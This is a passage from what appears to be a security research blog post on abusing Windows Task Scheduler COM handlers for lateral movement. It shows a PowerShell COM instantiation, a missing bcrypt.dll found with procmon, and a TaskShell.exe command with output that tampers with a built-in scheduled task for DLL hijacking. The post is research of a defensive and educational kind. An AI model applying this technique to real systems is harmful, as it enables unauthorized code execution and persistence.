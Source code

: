 
If we try to instantiate it using powershell:

```
[activator]::CreateInstance([type]::GetTypeFromCLSID("(429BC048-379E-45E0-80E4-EB1977941B5C)"))
 ```

We get the following missing DLLs with procmon:

![](/assets/2021-01-25-random-notes-on-task-scheduler-lateral-movement/a11c542e64687661e7b31df0ce75106c.png)

As it is possible to see, `bcrypt.dll` is not in the application's directory.


We can now select a task that is already using a COM handler and tamper it with the following:

```
.\TaskShell.exe -h localhost -t "\Microsoft\Windows\Wininet\CacheTask" -r -c "429BC048-379E-45E0-80E4-EB1977941B5C"
[+] Authenticating using current user's token
[+] Adding custom action to task..
[+] Enabling the task
[+] Authenticating using current user's token

============================
[+] Path: \Microsoft\Windows\Wininet\CacheTask
[+] Principal: BUILTIN\Users
[+] Action:  (429bc048-379e-45e0-80e4-eb1977941b5c)
At log on of any user
[+] Action: Wininet Cache task object (0358b920-0ac7-461f-98f4-58e32cd89148)
At log on of any user


[+] Triggering execution
[+] Cleaning up
```

If we do place a malicious DLL in the appropriate directory (missing DLLs can change from OS version to another) and export the expected functions, we will be able to execute code!

As a demo, I placed a dummy `bcrypt.dll` file within `C:\Windows\Microsoft.NET\Framework64\v4.0.30319\` that simply spawned notepad:
